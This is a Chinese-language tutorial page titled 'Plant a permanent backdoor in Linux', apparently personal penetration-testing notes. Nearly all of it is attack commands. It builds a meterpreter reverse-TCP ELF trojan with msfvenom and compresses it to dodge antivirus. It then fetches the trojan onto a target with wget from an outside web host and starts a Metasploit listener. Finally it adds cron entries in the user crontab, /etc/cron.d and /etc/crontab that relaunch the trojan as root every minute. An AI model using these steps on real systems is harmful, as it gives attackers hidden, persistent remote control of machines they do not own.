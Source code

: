 ```yaml
---
layout: default
title: 给Linux植入永久后门
---
```


# 生成meterpreter文件木马

```bash
mkdir -p /root/temp/
cd /opt/metasploit-framework/
./msfvenom -p linux/x86/meterpreter/reverse_tcp -f elf lhost=172.20.0.4 lport=4444 -o /root/temp/shell
# 制作文件木马
# -p 载荷
# -f elf Linux可执行文件
# localhost 本地主机，木马是客户端
# localport 本地端口
# output
```

# 把木马整到目标上去

```bash
cd /root/temp/
tar -czvf shd.tar.gz shell
# 压缩解决报毒
# 把shell放到我的 web上去
wget http://www.lu555.site/shd.tar.gz
tar -xzvf shd.tar.gz
chmod 777 shell
```

# 木马连接测试

```bash
# 本地开始监听
use exploit/multi/handler
# 通用木马服务端
set payload linux/x86/meterpreter/reverse_tcp
set lhost 172.20.0.4
set lport 4444
show options
run
./shell&
# 后台运行木马
ps aux | grep shell
pgrep shell -l
```

# meterpreter Linux文件木马功能

```bash
# linux meterpreter
getuid
shell
crtl + C 
ps
ps -S "shell"
# linux bash ps命令常用这两个：
ps aux 
ps aux | grep shell
pgrep shell -l
```

# 设置计划任务，设置木马客户端间隔自启

## 重启计划任务

```bash
# 计划任务要生效通常不需要重启，即改即生效
# 也可以重启一下来进一步确保没问题
systemctl restart cron
service cron restart
/etc/init.d/cron restart
```

## crontab编辑器-/var/spool/cron/crontabs/root方式

### crontab编辑器是咋回事？

> * 使用crontab编辑器编辑，其实就是编辑/var/spool/cron/crontabs/root文件
> 
> * 编辑的是当前用户的计划任务
> 
> * root用户root文件，zhangsan用户zhangsan文件

### 查看当前用户crontab

```bash
crontab -l 
ls -lah /var/spool/cron/crontabs/root
# 权限必须是600
# 归属必须是 root:crontab(当前用户：crontab)
cat /var/spool/cron/crontabs/root
pgrep shell -l
```

### 新增计划任务

#### 正常编辑crontab

```bash
EDITOR=vim crontab -e
# edit编辑计划任务
# m h  dom mon dow   command
# 分、时、day of month、月、day of week
# 30 * * * * com1 每小时的第30分执行command1
# 30 10 7 * * com2 每月的7号的10点30执行command2
# 30 10 * * 4 com3 每周四的10点30执行command3
# * * * * * com4 默认的每分钟执行一次command4
添加* * * * * /shell&
```

#### 一条命令使用crontab编辑器

```bash
(crontab -l 2>/dev/null;echo "* * * * * /shell&") | crontab -
# 列出当前crontab
# 报错丢弃
# 组合新增
# 传给crontab
# - 标准输入
```

#### 直接编辑/var/spool/cron/crontabs/root

```bash
echo "* * * * * /shell&" > /var/spool/cron/crontabs/root
# 没有直接覆盖
echo "* * * * * /shell&" >> /var/spool/cron/crontabs/root
# 有就追加
chown root:crontab /var/spool/cron/crontabs/root
chmod 600 /var/spool/cron/crontabs/root
```

### 删除计划任务

#### 正常编辑crontab删除

```bash
EDITOR=vim crontab -e
```

#### 直接编辑/var/spool/cron/crontabs/root删除

```bash
rm -rf /var/spool/cron/crontabs/root
# 添加文件了就删文件
sed -i '$d' /var/spool/cron/crontabs/root
# 添加行了就删行
# sed流文本编辑器
# -i 就地处理文件
# '$d'删除最后一行
```

## 通过/etc/cron.d/目录下的配置文件

### /etc/cron.d/目录下的配置文件的说明

> * 是系统的计划任务配置文件
> 
> * 配置文件中需写明用户
> 
> * 你想让root用户后门自启，配置文件就写root，后门命令以root权限执行

### 查看计划任务

```bash
ls -lah /etc/cron.d/
ls -lah /etc/cron.d/shell
# 权限必须是644
# 归属必须是 root:root
cat /etc/cron.d/shell
pgrep shell -l
```

### 新增计划任务

```bash
echo "* * * * * root /shell&" > /etc/cron.d/shell
chmod 644 /etc/cron.d/shell
chown root:root /etc/cron.d/shell
```

### 删除计划任务

```bash
rm -rf /etc/cron.d/shell
```

## 通过/etc/crontab文件

### /etc/crontab文件有什么性质？

> * 是系统计划任务配置文件
> 
> * 需要指明用户
> 
> * 让root用户自动后门，配置文件就得写root，后门命令以root权限执行，完美兼容想让root用户自动后门的目标

### 查看当前计划任务

```bash
ls -lah /etc/crontab
# 权限必须是644
# 归属必须是 root:root
cat /etc/crontab
pgrep shell -l
```

### 创建计划任务

```bash
echo "* * * * * root /shell&" >> /etc/crontab
chmod 644 /etc/crontab
chown root:root /etc/crontab
```

### 删除计划任务

```bash
sed -i '$d' /etc/crontab
```


